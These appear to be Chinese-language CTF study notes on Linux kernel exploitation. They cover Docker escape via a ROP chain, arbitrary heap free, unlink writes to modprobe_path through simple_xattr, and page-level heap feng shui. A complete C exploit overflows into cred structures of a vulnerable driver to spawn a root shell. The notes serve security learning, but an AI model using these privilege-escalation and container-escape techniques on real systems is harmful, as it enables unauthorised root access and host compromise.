
###  rop


1. Docker 的安全限制：
   Docker 通过 seccomp 禁用 setns() 系统调用，这种安全机制会阻止容器内进程切换到其他命名空间。

2. 分析 setns() 源码：
   可以发现，setns() 实际调用 commit_nsset() 执行命名空间切换。

4. 模仿 setns() 的行为：
   - 使用 copy_fs_struct() 克隆 init_fs 结构体。init_fs 是初始（根）文件系统结构体，克隆它就能获得对整个系统文件系统的访问。
   - 使用 find_task_by_vpid() 找到当前任务的结构体。
   - 使用内核中的任意写原语（通过 ROP gadget），将新的 fs_struct 安装到当前任务中。（task_struct 的 fs 指向 init_fs。）

> 使用 find_task_by_vpid() 定位 Docker 容器任务，再用 switch_task_namespaces() 将其 nsproxy 结构体改为 init_nsproxy。但仅凭这一点还不足以逃逸容器。
> 
仅修改 nsproxy 结构体不足以完全逃逸容器的原因：

1. 部分逃逸：
   使用 switch_task_namespaces() 将容器任务的 nsproxy 结构体改为 init_nsproxy，确实是逃逸过程的一部分。这一步让容器进程在某些方面（如网络、PID 等）看到宿主系统的视图。

2. 逃逸不完整：
   不过，这项修改只影响部分命名空间，并未影响所有隔离机制。尤其是文件系统隔离仍然存在。

3. seccomp 限制：
   Docker 使用 seccomp 过滤器限制容器内可用的系统调用。setns() 被拦截意味着，即使修改了 nsproxy 结构体，进程也无法通过正常系统调用完全切换到新的命名空间。

4. 文件系统隔离：
   容器的文件系统视图仍然隔离。要完全逃逸，还必须改变进程的文件系统视图，使其能够访问宿主机的完整文件系统。
 
> Docker 容器与 Google 的 kCTF 不同，默认通过 seccomp 拦截 setns()，因此返回用户空间后，无法使用它进入其他命名空间。需要找到替代方法，而且必须在 ROP 链中实现。
阅读 setns() 源码可知，它通过调用 commit_nsset()，实际将任务移入不同的命名空间。可以照着它的做法，使用 copy_fs_struct() 克隆 init_fs 结构体，再用 find_task_by_vpid() 定位当前任务，并使用 gadget 手动安装新的 fs_struct。


# 任意地址释放（仅限堆地址）

内核利用中，有时希望将结构体 A 中的某个指针修改为指向结构体 B，再释放结构体 A，从而释放结构体 B，造成结构体 B 的 UAF（例如 pollfd 的 next 指针：所有对象都通过 next 依次释放，因此可以将 next 改为指向目标结构体）。

-  连续释放会将结构体 A 内部指针所指向的结构体 B 对象释放，但结构体 B 仍然可以使用。
- 分配结构体 C，回收结构体 B 释放的对象；此时就可以通过结构体 C 修改结构体 B。


> 不过，有时与结构体 B 重叠的结构体 C 无法触及结构体 B 的关键字段。这时可以考虑将 A 的指针改为 B 的地址减去某个偏移，使结构体 C 的可控部分覆盖到结构体 B 中需要修改的区域。


分析 kfree 源码可知，会通过对象所在的 page 获取 kmem_cache。
```c
void kfree(const void *x)
{
	struct page *page;
	void *object = (void *)x;

	trace_kfree(_RET_IP_, x);

	if (unlikely(ZERO_OR_NULL_PTR(x)))
		return;

	page = virt_to_head_page(x);
	if (unlikely(!PageSlab(page))) {
		BUG_ON(!PageCompound(page));
		kfree_hook(object);
		__free_pages(page, compound_order(page));
		return;
	}
	slab_free(page->slab_cache, page, object, NULL, 1, _RET_IP_);
}

```

之后是如下调用链：

```bash
kfree()
    slab_free()
        do_slab_free()
```
do_slab_free 中几乎不做检查，直接将对象链接到 freelist。因此可以实现堆上的任意地址释放。
```c


	if (likely(page == c->page)) {
		set_freepointer(s, tail_obj, c->freelist);

		if (unlikely(!this_cpu_cmpxchg_double(
				s->cpu_slab->freelist, s->cpu_slab->tid,
				c->freelist, tid,
				head, next_tid(tid)))) {

			note_cmpxchg_failure("slab_free", s, tid);
			goto redo;
		}
		stat(s, FREE_FASTPATH);
	}

```

# 内核 Unlink
从链表中移除元素时需要执行 unlink。内核 unlink 的主要目的是利用 unlink 相互写入指针的操作，实现任意地址写。

unlink 基于 list_del 操作。伪造两个地址，替换 list_head 中的 prev 和 next，使一个地址写入另一个地址指向的内存。如果能控制 prev / next 指针，就可以将 prev 设为 modprobe_path，使 [2] 处将 next 的值写入 prev 指向的内存。

问题在于：[1] 处会先将 prev 写入 next->prev，这意味着 next 也必须是有效指针；之后还需要将 next 写入 prev->next，因此限制了能向 prev 写入的值。解决方法是使用 physmap 提供有效的 prev 值。

```c

static inline void __list_del(struct list_head * prev, struct list_head * next)
{
	next->prev = prev; 				// [1]
	WRITE_ONCE(prev->next, next); 	// [2]
}
```
physmap 的范围：0xffff888000000000-0xffffc87fffffffff

physmap 是内核虚拟内存中的一片区域，物理内存页连续映射到这里。因此，被劫持的 prev 地址可处于 0xffff888000000000 到 0xffffc87fffffffff 之间（存在偏移，可能的值取决于实际偏移）。攻击者可以控制 prev 的低 4 字节，只需保证高 4 字节表示 physmap 地址。

由于目标是修改 modprobe_path，可以构造 next = 0xffffxxxx2f706d74（系统内存至少需要 0x2f706d7c 字节，约 760M）。如果 prev = modprobe_path + 1，那么通过 [2]，modprobe_path 会被覆盖为 /tmp/(0xffffxxxx 对应的字符)probe（其中 0xffffxxxx 为 prev 的高 4 字节）。随后就能像前面一样提权。

```bash
例如
0xffff c87e 2f706d74
ÿÿ È~ /pmt
```



## simple_xattr（任何有链表 unlink 操作的结构体都可以）
1. setxattr

setxattr 是用于设置文件扩展属性的系统调用，基本语法如下：

```c
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);
```

- path：文件路径
- name：属性名
- value：属性值
- size：属性值大小
- flags：设置标志

例如：
```c
setxattr("/path/to/file", "user.myattr", "myvalue", 7, 0);
```
这会为文件设置一个名为 "user.myattr"、值为 "myvalue" 的扩展属性。

2. simple_xattr

simple_xattr 是 Linux 内核中用于管理扩展属性的结构体。用户空间程序通常不会直接使用它，而是由内核用它存储和管理扩展属性。

其结构大致如下：

```c
struct simple_xattr {
    struct list_head list;  // 用于链接多个xattr
    char *name;             // xattr的名称
    size_t size;            // xattr值的大小
    char value[];           // xattr的值,柔性数组成员
};

struct list_head {
	struct list_head *next, *prev;
};
```

- list：用于将多个 xattr 链接在一起
- name：属性名
- size：属性值大小
- value：属性值（柔性数组成员）

每个文件的 simple_xattr 保存在 list_head 链表中。分配函数为 simple_xattr_alloc()，用户控制 simple_xattr->value，分配大小从 kmalloc-32 到很大都可以。

> simple_xattr 不能原地修改；编辑时，会先将旧 simple_xattr 从链表中 unlink，再分配新的 simple_xattr 并链接进去。这里可以通过 UAF 或溢出修改 simple_xattr。另外，非特权用户不能设置 simple_xattr，但只要系统支持用户命名空间就可以。


因此可以通过修改 simple_xattr 进行 unlink 攻击。但这种技巧需要知道哪个 simple_xattr 对象被覆盖；否则，随意移除一个 simple_xattr，会在遍历链表时出错（如果被移除的正常 simple_xattr 与异常 simple_xattr 相邻，就会将异常 simple_xattr 链接到双向链表中）。

假设某个文件系统中有一个 "secret.txt" 文件，它具有以下 xattr：

1. user.color = "red"
2. user.size = "large"
3. user.type = "confidential"

这些 xattr 可能以 simple_xattr 对象链表的形式保存在内核中。

现在，攻击者想利用 simple_xattr 漏洞，目标是覆盖 "user.size" 的 simple_xattr 对象。

步骤：

1. 攻击者首先需要触发堆溢出或 UAF 漏洞，以便覆盖 "user.size" 的 simple_xattr 对象。

2. 攻击者修改 "user.size" 的 simple_xattr 对象中的 list_head。

3. 现在，攻击者希望利用这个已修改的对象继续攻击。

4. 如果攻击者随机移除一个 xattr，例如 "user.color"：

   ```
   removexattr("secret.txt", "user.color")
   ```

   由于链表结构已被破坏，这可能导致内核遍历 xattr 链表时出错。

5. 相应地，攻击者应准确定位并操作 "user.size" 这个 xattr：

   ```
   removexattr("secret.txt", "user.size")
   ```


覆盖 simple_xattr 后，可以通过以下方式找到对应的 simple_xattr：

- 如果修改 simple_xattr 的同时，还能读取其 value（通过 UAF 控制 simple_xattr），就可以在创建 simple_xattr 时设置 value（setxattr 的 value 参数），据此判断哪个 simple_xattr 对象被覆盖。
- 每次分配长度为 0x100 字节的 name（setxattr 的 name 参数），这样 simple_xattr->name 指针的最低 1 字节为 0（通过溢出修改 simple_xattr）。此时，在覆盖 simple_xattr 的 list_head 时，同时覆盖 simple_xattr->name 的最低 1 字节，使 name 指向原 name 中间的某处，从而确定被覆盖的 simple_xattr 所对应的名称。


下图总结了 simple_xattr->name 的构造方式。







# 跨缓存溢出与页级堆风水
[https://blog.xmcve.com/2023/10/12/Kernel-Heap---Cross-Cache-Overflow/](https://blog.xmcve.com/2023/10/12/Kernel-Heap---Cross-Cache-Overflow/)
[https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/heap/buddy/cross-cache/#stepii-page-level-heap-fengshui](https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/heap/buddy/cross-cache/#stepii-page-level-heap-fengshui)


##  使用 setsocket 分配页面
分配页面：创建一个协议为 PF_PACKET 的 socket 后，先调用 setsockopt()，将 PACKET_VERSION 设为 TPACKET_V1/TPACKET_V2；再调用 setsockopt() 申请 PACKET_TX_RING，创建环形缓冲区。调用链如下：
 

```bash
__sys_setsockopt()
    sock->ops->setsockopt()
        packet_setsockopt() // case PACKET_TX_RING ↓
            packet_set_ring()
                alloc_pg_vec()
最终调用
		 order = get_order(req->tp_block_size);
        pg_vec = alloc_pg_vec(req, order);

相关使用函数
socket(PF_PACKET, SOCK_RAW, 768)        = 3
...
setsockopt(3, SOL_PACKET, PACKET_VERSION, [1], 4) = 0
...
setsockopt(3, SOL_PACKET, PACKET_RX_RING, {block_size=131072, block_nr=31, frame_size=65616, frame_nr=31}, 16) = 0
```
最后，alloc_pg_vec() 实际调用内核的内存分配函数。注意，这里是分配 block_nr 个由所给 order 决定大小的页面块，order 取决于 block_size。这里创建 pg_vec 数组，用于分配 tp_block_nr 个块，每块包含 2^order 个页面。由于最终使用单个页面作为 cache slab 进行布局，因此这里每次 setsockopt 只需要分配一个页面。


```c
struct pgv {
    char *buffer;
};

static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)
{
    ...

    pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
    if (unlikely(!pg_vec))
        goto out;

    for (i = 0; i < block_nr; i++) {
        pg_vec[i].buffer = alloc_one_pg_vec_page(order);
    
    ...
}

static char *alloc_one_pg_vec_page(unsigned long order)
{
    char *buffer;
    gfp_t gfp_flags = GFP_KERNEL | __GFP_COMP |
              __GFP_ZERO | __GFP_NOWARN | __GFP_NORETRY;

    buffer = (char *) __get_free_pages(gfp_flags, order);
    if (buffer)
        return buffer;
    
    ...
}
```
由于存在检查，还需要构造 tp_frame_size 和 tp_frame_nr。

```c
err = -EINVAL;
        if (unlikely((int)req->tp_block_size <= 0))
            goto out;
        if (unlikely(!PAGE_ALIGNED(req->tp_block_size)))
            goto out;
        min_frame_size = po->tp_hdrlen + po->tp_reserve;
        if (po->tp_version >= TPACKET_V3 &&
            req->tp_block_size <
            BLK_PLUS_PRIV((u64)req_u->req3.tp_sizeof_priv) + min_frame_size)
            goto out;
        if (unlikely(req->tp_frame_size < min_frame_size))
            goto out;
        if (unlikely(req->tp_frame_size & (TPACKET_ALIGNMENT - 1)))
            goto out;

        rb->frames_per_block = req->tp_block_size / req->tp_frame_size;
        if (unlikely(rb->frames_per_block == 0))
            goto out;
        if (unlikely(rb->frames_per_block > UINT_MAX / req->tp_block_nr))
            goto out;
        if (unlikely((rb->frames_per_block * req->tp_block_nr) !=
                    req->tp_frame_nr))
            goto out;
```
最终分配页面的模板如下：
```c
   socket_fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
   version = TPACKET_V1;
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_VERSION,
                     &version, sizeof(version));
      req.tp_block_size = size; //0x1000
    req.tp_block_nr = nr; //1
    req.tp_frame_size = 0x1000;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr) / req.tp_frame_size;

    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
```


init_module 创建了一个对象大小为 512 字节的 kmem_cache，创建时使用 SLAB_ACCOUNT | SLAB_PANIC 标志，且开启 CONFIG_MEMCG_KMEM=y，因此这是一个独立 kmem_cache。同一 slab 内无法利用，只能在页级进行利用。

## 使用 setsocket 进行命名空间逃逸
不过，无法在根命名空间中使用这一原语，因此需要创建子进程，并通过 unshare 系统调用创建新的子命名空间，应用于该子进程。这样新创建的子进程就能使用页级分配原语，而新命名空间会应用于调用 unshare 的进程（即子进程）及其后代。


## 处理 fork 噪声与 clone 子进程标志
fork 的核心函数是 kernel_clone，clone 中的以下标志可以大幅减少 fork 时产生的噪声：

```bash
CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND
```

设置这些标志后，产生的噪声减少为：

```bash

task_struct
kmalloc-64
vmap_area
vmap_area
cred_jar
signal_cache
pid
```

注意，这里仍有 vmalloc 产生的 4 个 order_0 页面。
还有一个问题：子进程实际上不能写入任何进程内存，因为它与父进程共享同一虚拟内存。因此，必须使用仅依赖寄存器、不写内存的 shellcode，检查是否提权成功。
## 进程间管道通信
由于进程需要在另一个命名空间中执行 setsocket 操作，因此通过管道与主进程通信。

至于 clone 出来的进程如何知道当前 cred 是否已提权，可以设置管道与主进程通信。主进程完成全部堆喷和溢出写入后，通过管道通知 clone 进程。因为 clone 进程从一开始就在读取管道，所以会阻塞，直到主进程向它发送数据。随后 clone 检查当前 uid，并执行 `execve("/bin/sh", args, 0)`。
## 利用
ioctl 支持添加和编辑对象；编辑操作存在六字节溢出。

- 首先分配大量单页，耗尽伙伴系统中的低阶页面，得到一段连续内存。

```c
  for (int i = 1; i < PGV_PAGE_NUM; i ++) {
        alloc_page(i);
    }
```

- 喷射后，后续分配的页面通常是连续的。接着隔页释放（关闭对应 socket，每个页面对应一个 socket），再堆喷 cred（clone 进程），就有机会得到此前释放的单页。

```c
  for (int i = 1; i < PGV_PAGE_NUM; i += 2) {
        free_page(i);
    }
 for (int i = 0; i < CRED_SPRAY_NUM; i++) {
        if (simple_clone(CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND, waiting_for_root_fn) < 0) {
			…………
        }
    }
```

- 释放之前间隔保留的页面，调用漏洞函数分配 chunk，就有机会得到这些释放的间隔页。此时它们可能恰好与 cred 所在页相邻。再利用模块中的漏洞进行越界写入，篡改 cred->uid，完成提权。
```c
 for (int i = 0; i < PGV_PAGE_NUM; i += 2) {
        free_page(i);
    }
    memset(buf, 0, sizeof(buf));
    *(uint32_t *) &buf[VUL_OBJ_SIZE - 6] = 1;    /* cred->usage */
    for (int i = 0; i < VUL_OBJ_NUM; i++) {
        alloc();
        edit(i, VUL_OBJ_SIZE, buf);
    }
```

### 注意事项
管道参数需要为 `int*`，否则通信始终失败。

另外注意：子进程检测到自己为 root 并启动 shell 后，主进程必须以 sleep(1000) 结束，否则 shell 会立即退出。
### exp

```c
#define _GNU_SOURCE 
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sched.h>
#include <assert.h>
#include <time.h>
#include <sys/socket.h>
#include <stdbool.h>

#define PACKET_VERSION 10
#define PACKET_TX_RING 13
#define CHUNK_SIZE 512
#define ALLOC 0xcafebabe
#define DELETE 0xdeadbabe
#define EDIT 0xf00dbabe
int pipe_parent_read[2];
int pipe_child_read[2];

size_t socket_fd[0x1000];
struct request_dev{
    size_t index;
    size_t size;
    size_t buf;
};
enum request_socket_page_cmd
{
    alloc_page,
    free_page,
    exit_page,
};

void bind_core(int core) {
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
}

struct request
{
    enum request_socket_page_cmd cmd;
    size_t idx;

};

struct tpacket_req{
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};
enum tpacket_versions {
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};
int alloc_pages_via_sock(uint32_t size, uint32_t n){
    struct tpacket_req req;
    int32_t socketfd, version;
    
    /* Create the AF_PACKET socket */
    socketfd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    version = TPACKET_V1;
    setsockopt(socketfd, SOL_PACKET, PACKET_VERSION, &version, sizeof(version));
    memset(&req, 0, sizeof(req));
    req.tp_block_size = size;
    req.tp_block_nr = n;
    req.tp_frame_size = 4096;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr)/req.tp_frame_size;
    setsockopt(socketfd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    return socketfd;
}


size_t socketfds[0x500];
void socker_page_spray_prepare()
{   puts("start fork");
    if(!fork())
    {   
        uid_t uid=getuid();
        gid_t gid=getpid();
        int temp;
        char edit[0x100];
        unshare(CLONE_NEWNS|CLONE_NEWUSER|CLONE_NEWNET);     //Create new namespace and get in
        temp = open("/proc/self/setgroups", O_WRONLY);
        write(temp, "deny", strlen("deny"));
        close(temp);
        temp = open("/proc/self/uid_map", O_WRONLY);
        snprintf(edit, sizeof(edit), "0 %d 1", uid);
        write(temp, edit, strlen(edit));
        close(temp);
        temp = open("/proc/self/gid_map", O_WRONLY);
        snprintf(edit, sizeof(edit), "0 %d 1", gid);
        write(temp, edit, strlen(edit));
        close(temp);
        puts("create new namespace");
        struct request req;
        size_t result;
        do{
            read(pipe_child_read[0], &req, sizeof(req));
            if(req.cmd == alloc_page){
                socketfds[req.idx] = alloc_pages_via_sock(4096, 1);
            }else if (req.cmd == free_page){
                close(socketfds[req.idx]);
            }
            result = req.idx;
            write(pipe_parent_read[1], &result, sizeof(result));
        }while(req.cmd != exit_page);
    }
}

int rootfd[2];
char root[] = "root\n";
char throwaway[0x100];
struct timespec timer = {.tv_sec = 1000000000, .tv_nsec = 0};
char binsh[] = "/bin/sh\x00";
char *args[] = {"/bin/sh", NULL};
__attribute__((naked)) void check_and_wait()
{
    asm(
        "lea rax, [rootfd];"
        "mov edi, dword ptr [rax];"
        "lea rsi, [throwaway];"
        "mov rdx, 1;"
        "xor rax, rax;"
        "syscall;"              //read(rootfd, throwaway, 1)
        "mov rax, 102;"         
        "syscall;"              //getuid()
        "cmp rax, 0;"           // not root, goto finish
        "jne finish;"
        "mov rdi, 1;"
        "lea rsi, [root];"
        "mov rdx, 5;"
        "mov rax, 1;"
        "syscall;"              //write(1, root, 5)
        "lea rdi, [binsh];"
        "lea rsi, [args];"
        "xor rdx, rdx;"
        "mov rax, 59;"
        "syscall;"              //execve("/bin/sh", args, 0)
        "finish:"
        "lea rdi, [timer];"
        "xor rsi, rsi;"
        "mov rax, 35;"
        "syscall;"              //nanosleep()
        "ret;");
}
__attribute__((naked)) pid_t clone_and_getsh(uint64_t flags, void *dest)
{
     
    asm("mov r15, rsi;"
        "xor rsi, rsi;"
        "xor rdx, rdx;"
        "xor r10, r10;"
        "xor r9, r9;"
        "mov rax, 56;"
        "syscall;"
        "cmp rax, 0;"
        "jl bad_end;"
        "jg good_end;"
        "jmp r15;"
        "bad_end:"
        "neg rax;"
        "ret;"
        "good_end:"
        "ret;");
       
}
int main()
{   pipe(rootfd);
    pipe(pipe_parent_read);
    pipe(pipe_child_read);
    struct request request_cmd;
    size_t result;
    puts("Step 1: Open the vulnurability driver...");
    size_t fd = open("/dev/castaway", O_RDONLY);
    bind_core(0);
    //create child process and Cyclically waiting for the parent process to send commands to allocate or release pages
    puts("Step 2: Construct two pipe for communicating in those namespace...");
    socker_page_spray_prepare();
    sleep(0x1);
    //spray page
    puts("Step 3: use setsocket to heap spray many one page ");
    for(int i = 0; i < 0x400; i++){
        request_cmd.cmd=alloc_page;
        request_cmd.idx=i;
        write(pipe_child_read[1],&request_cmd,sizeof(request_cmd));
        read(pipe_parent_read[0],&result,sizeof(result));
    } 
    puts("Step 4: spray free next one page to use cred ");
    for(int i = 0x400/2+1; i < 0x400; i+=2){
        request_cmd.cmd=free_page;
        request_cmd.idx=i;
        write(pipe_child_read[1],&request_cmd,sizeof(request_cmd));
        read(pipe_parent_read[0],&result,sizeof(result));
    } 
    puts("Step 5: spray clone to alloc page to use cred ");
    for(int i = 0; i < 0x100; i++){
            clone_and_getsh(CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND,&check_and_wait);
    } 
    puts("Step 6: spray free front one page to use the castaway_ioctl_add ");
    for(int i = 0x400/2; i < 0x400; i+=2){
        request_cmd.cmd=free_page;
        request_cmd.idx=i;
        write(pipe_child_read[1],&request_cmd,sizeof(request_cmd));
        read(pipe_parent_read[0],&result,sizeof(result));
    } 
    char object_buf[CHUNK_SIZE];
    *(uint32_t *)&object_buf[CHUNK_SIZE - 0x6] = 1;
    puts("Step 7: spray castaway_ioctl_add alloc one page to overflow to cred ");
   for(int i = 0; i < 0x100; i++){
        ioctl(fd, ALLOC, 0);
        struct request_dev req_dev = {.index = i, .size = CHUNK_SIZE, .buf = object_buf};
        ioctl(fd, EDIT, (unsigned long)&req_dev);

    }
    write(rootfd[1], object_buf, CHUNK_SIZE);
    sleep(10000);
    
} 


```


# off by one + 页级堆风水（页级 UAF）

这种攻击技巧主要指内存页结构体 `page` 的释放后使用。
## D^3CTF2023 d3kcache
## 以 root 身份调试

> 感谢 Nightu 和 flyyy 两位师傅的帮助！！

发现虽然 `rdinit=/sbin/init`，仍然可以通过修改 `/etc/init.d/rcS` 改变启动权限。
## ext4 文件系统相关打包
用 mount 挂载，复制文件进去，再卸载。
```bash
if [ ! -d rootfs ]; then
    mkdir rootfs
fi

sudo mount rootfs.img rootfs

cp exp rootfs/
sudo umount rootfs
```

题目说明 flag 位于 /root/flag，文件系统为 ext4，对应的 init 文件在 `./etc/init.d/rcS`。

`d3kcache_ioctl` 根据 ioctl 命令执行不同操作：

   a. 命令 276（创建新 cache）：
   b. 命令 1300（向现有 cache 追加数据）：
   c. 命令 2064（释放 cache）：
   d. 命令 6425（从 cache 读取数据）：

